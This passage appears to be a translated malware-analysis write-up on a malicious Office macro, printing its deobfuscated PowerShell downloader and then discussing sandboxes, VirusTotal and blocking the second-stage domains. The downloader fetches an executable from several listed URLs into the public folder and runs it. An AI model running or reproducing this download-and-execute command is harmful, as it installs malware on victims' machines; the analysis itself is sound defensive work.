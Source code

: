 然后，如果我们已经完成了字符串的反转，我们调用新反转的字符串的最后 350 个字符`lI`作为 shell 命令。运行完循环后，变量`lI`将包含以下字符串:

```
powershell $Ywi=new-object Net.WebClient;$jKB=’http://jany.be/UsCX@http://jfogal.com/C@http://inspekservices.co.uk/g@http://ilgiardinodellevisciole.it/ny@http://www.diman.landesigne.ru/Q'.Split('@');$LtU = ‘394’;$jri=$env:public+’\’+$LtU+’.exe’;foreach($JBf in $jKB){try{$Ywi.DownloadFile($JBf, $jri);Invoke-Item $jri;break;}catch{}} 
```

然后被执行。

## `Powershell`有效载荷

现在你一定在想我此刻在想什么，那就是

> 我们说完了吗？？

答案是，是的，差不多。这是有效载荷的格式，看起来更好一些:

因此，我们循环通过用`@`分隔的 URIs，试图下载一个文件。
当我们从其中一个路径成功下载时，我们将下载内容写入`$env:public+’\’+$LtU+’.exe’`，执行它，并退出循环。这是最终的有效载荷，非常简单:

## 死后的

我们正式把它从可执行的胡言乱语变成了可屏蔽的第二阶段域名！虽然这很有趣，也是一次很好的学习经历，但这并不是获取这些信息的最佳方式。在逆转这一有效载荷的时间里，第二阶段的域名已经死亡。一个好的动态分析沙箱是解决这些问题的方法，因为它们可以为您提供宏内容以及执行的原始有效负载，有时还可以提供相关的第二阶段有效负载试探法。

鉴于我们知道该文档是恶意的，并且不包含任何敏感的公司信息，我们可以将该文档上传到 VirusTotal。VirusTotal 做了许多很酷的事情，包括通过一系列抗病毒检测引擎运行样本，并报告样本的静态数据，有时是启发式数据。在恶意文件的情况下，它还可以提取 VBA 宏流。请注意，在将文档上传到 VirusTotal 时，文档中的信息应被视为公共信息。所以在上传那些你没有在本地用`oletools`之类的工具手动分析过的涉嫌恶意的公司文件时要小心。

分割样本的病毒总数结果(`9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22`)可以在[这里](https://www.virustotal.com/#/file/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22/detection)找到。在这一点上，它有很好的检测能力:

![](img/e71ad5a6589efebf4394ebd72f98f4d4.png)
